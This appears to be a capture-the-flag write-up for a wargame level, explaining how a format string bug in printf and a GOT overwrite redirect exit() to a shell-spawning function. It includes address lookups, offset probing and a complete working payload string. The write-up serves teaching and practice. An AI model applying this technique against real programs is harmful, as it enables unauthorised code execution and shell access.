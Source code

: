 # Code execution Redirect

We have a function n() calling a vulnerable printf and a function o() calling a /bin/sh.

The idea is to redirect the code execution do the function o().

We can't overwrite return address of n function because it exit at the end of the function

```c
void n(void)
{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  exit(1); //here
}
```

We’ll use a trick called GOT Overwrite.

## Theory

Basically, when the program is executed, the GOT (Global Offset Table) is initialized for every external functions (like libc functions). By doing so, the executable will cache the memory address in the GOT, so that it doesn’t have to ask libc each time an external function is called.

The goal here will be to overwrite the address of exit() in the GOT with the address of o(). There are 4 steps here :

- Find the address of o()
- Find the address of exit() in GOT
- Find the offset of our string on the stack
- Write the proper exploit string

```bash
iobjdump -R ./level5 | grep exit                                                                          (main✱) 
08049838 R_386_JUMP_SLOT   exit@GLIBC_2.0

objdump -t ./level5 | grep o
080484a4 g     F .text	0000001e              o
```

Both addresses are find, now lets find the offset of the buffer:

```bash
./level5                                                                                                 (main✱) 
AAAA%x.%x.%x.%x.%x.
AAAA200.f7e26620.0.41414141.252e7825.

./level5                                                                                                 (main✱) 
AAAA%4$x
AAAA41414141
```

Offset of the buffer in the stack is `%4$x`. Lets try, write 4 byte in exit func:

```c
gef➤  r < <(python3 -c 'import sys; sys.stdout.buffer.write(b"\x38\x98\x04\x08" + b"%4$n")')
Program received signal SIGSEGV, Segmentation fault.
0x00000004 in ?? ()
```

Nice it seg at address 4, it mean we well overwrite !

## Payload

### Write larger data:

```py
0x0804 = 2052 (in decimal) -> 0x08049838 + 2 =  0x0804983a
0x84a4 = 33956 (in decimal) -> 0x08049838
```

Padding :

```py
2052 - 8 = 2044
33956 - 2052 = 31904
```

Payload : 

cat <(python2.7 -c 'import sys; sys.stdout.write(b"\x38\x98\x04\x08" + b"\x3a\x98\x04\x08" + b"%2044x" + b"%5$hn" + b"%31904x" + b"%4$hn")') - | ./level5